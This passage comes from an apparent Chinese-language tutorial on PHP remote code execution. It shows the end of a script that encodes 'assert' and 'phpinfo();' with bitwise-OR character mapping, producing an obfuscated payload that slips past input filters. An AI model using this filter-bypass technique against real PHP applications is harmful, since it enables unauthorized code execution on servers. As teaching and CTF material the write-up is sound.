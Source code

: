 ```php

    # 移除最后一个多余的点
    return rtrim($result, '.');
}

# 生成 OR 映射
$orMapping = or_generator();

# 构造 RCE
$func = "assert";
$param = "phpinfo();";

# 生成最终的 payload
$encode_func = buildPayload($func, $orMapping);
$encode_param = buildPayload($param, $orMapping);

$payload = "($encode_func)($encode_param);";
echo "Payload: " . $payload . "\n";
```

生成payload

![6](https://the0n3.top/medias/phprce/6.png)